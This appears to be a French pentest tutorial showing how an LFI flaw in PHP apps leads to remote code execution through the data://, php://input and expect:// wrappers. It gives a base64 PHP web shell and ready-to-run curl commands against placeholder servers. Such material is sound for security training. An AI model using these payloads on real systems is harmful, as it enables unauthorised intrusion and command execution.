 # Wrappers PHP

***

## <mark style="color:red;">**Wrapper Data**</mark>

Le wrapper **data** peut être utilisé pour inclure des données externes, y compris du code PHP. Cependant, il n'est utilisable que si l'option **allow\_url\_include** est activée dans les configurations PHP. Vérifions tout d'abord si cette option est activée en lisant le fichier de configuration PHP à l'aide de la vulnérabilité LFI.

***

<mark style="color:green;">**Vérification des configurations PHP**</mark>

Pour cela, nous incluons le fichier de configuration PHP situé à **/etc/php/X.Y/apache2/php.ini** pour Apache ou **/etc/php/X.Y/fpm/php.ini** pour Nginx, où X.Y correspond à votre version PHP. Commencez par la dernière version, puis essayez les versions précédentes si le fichier n'est pas trouvé. Utilisez également le filtre **base64** pour éviter de casser le fichier, car les fichiers `.ini` sont similaires aux fichiers `.php`. Utilisez **cURL** ou **Burp Suite** plutôt qu’un navigateur, car la sortie peut être trop longue pour s'afficher correctement.

**Commande :**

{% code overflow="wrap" fullWidth="true" %}
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
{% endcode %}

**Résultat extrait :**

```html
...SNIP...
allow_url_include = On
```

Si **allow\_url\_include** est activé, nous pouvons utiliser le wrapper **data**. Cela est important, car cette option n’est pas activée par défaut et est nécessaire pour plusieurs autres attaques LFI, comme celles utilisant le wrapper **input** ou les attaques RFI.

***

<mark style="color:green;">**Exécution de code à distance avec le wrapper Data**</mark>

Avec **allow\_url\_include** activé, utilisons le wrapper **data** pour inclure du code PHP. Encodez un shell PHP en base64 :

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Encodez ensuite cette chaîne en URL et passez-la au wrapper avec **data://text/plain;base64,**. Ajoutez une commande via le paramètre `cmd` :

{% code overflow="wrap" fullWidth="true" %}
```http
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
{% endcode %}

**Avec cURL :**

{% code overflow="wrap" fullWidth="true" %}
```bash
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
{% endcode %}

***

### <mark style="color:blue;">**Wrapper Input**</mark>

Le wrapper **input** inclut les données externes d’une requête POST et exécute du code PHP. Contrairement à **data**, les données sont passées dans le corps POST. La fonction vulnérable doit donc accepter des requêtes POST. Cela dépend aussi de **allow\_url\_include**.

**Exemple :**

{% code overflow="wrap" fullWidth="true" %}
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
{% endcode %}

***

### <mark style="color:blue;">**Wrapper Expect**</mark>

Le wrapper **expect** exécute directement des commandes via des flux URL, sans besoin de shell. C'est un module externe qu'il faut installer et activer. Vérifiez son activation comme suit :

{% code overflow="wrap" fullWidth="true" %}
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```
{% endcode %}

Si activé :

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

***

{% hint style="warning" %}
**Résumé**

* **Data Wrapper :** Inclut des données externes encodées en base64.
* **Input Wrapper :** Requiert des données POST.
* **Expect Wrapper :** Exécute des commandes directement.

Ces techniques permettent une exécution de code via des vulnérabilités LFI. Les wrappers **phar** et **zip** seront abordés ultérieurement pour des applications autorisant l’upload de fichiers.
{% endhint %}
